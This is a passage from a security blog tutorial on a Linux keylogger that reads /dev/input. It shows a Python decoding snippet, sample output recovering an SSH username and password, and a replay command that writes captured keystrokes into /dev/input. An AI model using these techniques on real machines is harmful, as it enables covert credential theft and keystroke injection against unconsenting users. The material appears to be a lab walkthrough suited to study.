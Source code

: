 ```python
print("=============== DECODED ==============")
out = ''.join(output)
print(out)
```

Here's a sample output : 

```bash
$ ./keyboard.py 
============== RAW ===============	
1650296356	797828	4	4	458792	
1650296356	797828	1	28	0	
1650296356	797828	0	0	0	
1650296357	789872	4	4	458774	
1650296357	789872	1	31	1	s
1650296357	789872	0	0	0	
1650296357	821873	4	4	458774	
1650296357	821873	1	31	0	
1650296357	821873	0	0	0	
1650296357	917883	4	4	458774	
1650296357	917883	1	31	1	s
...
=============== DECODED ==============
ssh kali<AltGr>à192.168.1.254
yes
kali123!!
<CTRL>c
```
In the decoded part, we were able to successfully recover an SSH authentication (login and password). Of course, it will require an extra effort to understand all the special characters. 

For example, `<AltGr>à` means `@` in the above example, but you have the general understanding 🤠.

### Alternative way : Replay Attack


Another way to decode the keyboard data stream would be to inject the contents of `/tmp/keylogger.raw` into `/dev/input` to replay the recorded keystrokes directly into your own input stream : 

`$ sudo cat /tmp/keylogger.raw > /dev/input/event0`

I strongly recommend that you give yourself some time to open an editor (`sleep 10` ?). Don't choose nano or vim because your local editor may interpret the stream as being addressed to itself. 

{{< figure src="/images/security/linux-keylogger/pwned-small.gif" alt="denial of service attack" caption="Avoid using your terminal to decode keytrokes 😉 ">}} 

Instead, use a graphical editor like mousepad, leafpad or even gedit or kate. This way, you will see ":q" or "ctrl + x" without affecting your editor. You will then see the keystrokes magically appear on your screen.

## Because I'm not a rocket scientist, the references  

- https://www.kernel.org/doc/Documentation/input/input.txt (GNU/Linux official documentation on input)
- https://www.aldeid.com/wiki/Dev-input (for the base python script)
- https://wikipedia.org/wiki/Keylogger (for some general knownledge)

## Make a good action !
---
Hit that `CTRL + D` to bookmark this website 🔖

Internet is for sharing, so please consider sharing this post if you liked it !

It will be so much better than any newsletter #privacy #spam #planet 🌍 ❤️

